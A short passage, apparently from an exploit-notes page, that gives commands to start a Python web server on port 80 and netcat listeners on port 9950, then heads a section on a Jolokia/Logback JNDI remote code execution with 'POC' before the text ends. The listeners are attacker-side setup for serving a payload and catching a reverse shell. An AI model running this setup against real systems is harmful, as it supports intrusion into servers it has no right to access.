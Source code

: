 ```bash
python -m http.server 80 
nc -lvk 9950 #mac
nc -lvp 9950 #linux
```

![](./image/image-20241010151640105.png)

![](./image/image-20241010151607414.png)

### #13 JolokiaLogback的JNDI的RCE

POC
